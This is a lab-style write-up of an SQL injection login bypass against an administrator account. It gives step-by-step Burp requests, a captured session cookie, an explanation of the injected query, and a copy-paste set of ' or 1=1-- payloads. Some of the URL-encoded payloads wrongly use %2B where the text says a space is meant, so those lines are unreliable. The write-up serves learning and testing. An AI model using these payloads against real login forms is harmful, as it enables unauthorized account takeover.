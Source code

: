 # SQL Injection – Admin Login Bypass (**Authentication**)

A concise write‑up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Log in as the administrator** by exploiting SQL injection in the login flow.

---

## ✅ My Exact Steps (Verbatim)

1. **understanding the goal: logging in for the administrator.**

2. **here we we'll go looking for the login page, (if that wont work we might expand our surface)**

3. **extracting the /login path and moving it into the burp repeater.**

4. **we'll set the user to administrator and try to inject the password:**
   ```txt
   csrf=4DwnTMWUAdaq4ZvYdmrNVvGd366G4UYD&username=administrator&password=dsadsadsadsada'
   ```

5. **we get 500 internal server error, lets try fixing: `password=dsadsadsadsada''` -> normal res.**

6. **in SQL '' actually equals to ' as literal character. lets try commenting the rest: `password=dsadsadsadsada'--;` Also works.**

7. **lets try triggering true statement for our sql: `password=dsadsadsadsada'+or+1=1--;` -> this gives us a session.**
   ```http
   Set-Cookie: session=7ynTHjp79jxQyPCXIM7emnjp1t6gUxh6; Secure; HttpOnly; SameSite=None
   ```

8. **lets go on /login, intercept the request and do it in real time.**

9. **Lab still isnt marked as solved.. lets try modifiyingh the email.**

10. **Lab solved!**

---

## 🧠 Minimal Additions (Why This Works)

- The backend likely builds a query similar to:
  ```sql
  SELECT * FROM users
  WHERE username = 'administrator' AND password = '<USER_INPUT>';
  ```
  Injecting a trailing single quote (`'`) breaks the string literal and causes a **500 error** (syntax error).

- In SQL, to represent a **literal single quote** inside a quoted string, you use **two single quotes** (`''`). That’s why `password=...''` restores normal parsing.

- Using `--` starts a **single‑line SQL comment** (in many DBs). Everything to the end of the line is ignored.
  - Many apps append **more SQL** after your input. Adding `--` (often with a trailing space, encoded as `+`) neutralizes that remainder.
  - Example (URL form encoding): `password=abc%27--+` equals `password=abc'-- `.

- Making the condition always true with `OR 1=1` while commenting the remainder bypasses authentication and returns a **valid session** for the first matching row (often the admin).

- If a lab isn’t marked as solved immediately, perform the exploit through the **live UI flow** (Step 8) and/or trigger a required post‑login action (e.g., **modify email**) as the lab expects (Step 9).

---

## 🔧 Payloads I Used (Copy/Paste)

**Human‑readable (Burp Repeater form body):**
```txt
username=administrator&password=dsadsadsadsada'
username=administrator&password=dsadsadsadsada''
username=administrator&password=dsadsadsadsada'-- 
username=administrator&password=dsadsadsadsada' or 1=1-- 
```

**URL‑encoded (safe to paste in raw body):**
```txt
username=administrator&password=dsadsadsadsada%27
username=administrator&password=dsadsadsadsada%27%27
username=administrator&password=dsadsadsadsada%27--%2B
username=administrator&password=dsadsadsadsada%27%20or%201%3D1--%2B
```

> Notes:
> - `+` represents a space in URL‑encoded query strings; in bodies, `%20` is explicit space.
> - Ensure there’s at least one space after `--` (e.g., `-- `), often encoded as `+` or `%20`.

---

## 🏁 Result
- Successful **admin session** obtained via password‑field SQLi.
- After replaying via UI and completing the expected action, **Lab Solved. ✅**
